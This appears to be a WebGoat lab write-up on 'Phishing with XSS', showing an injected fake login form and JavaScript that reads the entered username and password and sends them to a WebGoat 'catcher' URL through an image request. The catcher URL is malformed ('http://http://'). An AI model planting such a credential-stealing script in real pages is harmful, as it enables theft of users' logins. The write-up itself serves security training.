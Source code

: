 # Phishing with XSS

Create a HTML form with 2 input fields and 1 submit button. When this button is clicked, we can see that it could our javascript code `alert('1')`

```javascript
<script>
function login() {
    alert("This is the login function!");
}
</script>
```

```html
<h1>Login required!</h1><br>
Enter username: <input type="text" id="username"><br>
Enter password: <input type="password" id="password"><br>
<input type="submit" name="login" onclick="login()">
```

The code for collecting the credentials will be replacing the code  `"alert('1')"`. The javascript will be made up of getting the user text field (id = `username`) and password field (id =  `password`).

Using javascript we can retrieve these values by simply:
(for username) `document.getElementById("username").value`
(for password) `document.getElementById("password").value`

Modifying the whole HTML code to
```html
<h1>Login required!</h1><br>
Enter username: <input type="text" id="username"><br>
Enter password: <input type="password" id="password"><br>
<input type="submit" name="login" onclick="login()">
```

```javascript
<script>
function login() {
    var temp=new Image();
    temp.src="http://http://192.168.247.135/WebGoat/catcher?PROPERTY=yes&user=" + document.getElementById("username").value+"&password="+document.getElementById("password").value;
}
</script>
```